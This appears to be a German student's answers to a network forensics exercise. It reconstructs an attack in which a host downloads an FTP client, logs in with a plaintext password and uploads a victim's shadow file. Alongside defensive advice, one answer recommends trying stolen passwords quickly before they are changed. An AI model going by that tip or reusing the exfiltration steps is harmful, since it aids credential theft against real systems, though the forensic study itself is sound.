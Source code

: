 1. FTP upload
   a) 172.17.0.3
   b) GET /alpine/v3.11/main/x86_64/lftp-4.8.4-r2.apk (ftp client download)
   c) ftp-upload von victims/172.17.0.2/shadow (vermutliche credentials)
   d) Er lädt einen FTP-Client herunter und meldet sich anschließend als "hackerman" mit dem Passwort "hackH4ckhacK" am Pure-FTPd an und erstellt dort folgende Ordner "victims/172.17.0.2" anschließend läd er in diesen Ordner eine Datei mit dem Namen "Shadow"
   STOR victims/172.17.0.2/shadow
2. hackH4ckhacK
3. Bessere Passwörter verwenden. Firewall und Pure-FTPd Einstellungen anpassen.
4. Sämtliche Passwörter zu ersetzten
5. Die erbeuteten Passwörter möglichst schnell auszuprobieren da sie vermutlich geändert werden sobald bekannt wird das sie gestohlen wurden. 
   
   ![[Pasted image 20231020085919.png]]
   ![[Pasted image 20231020085939.png]]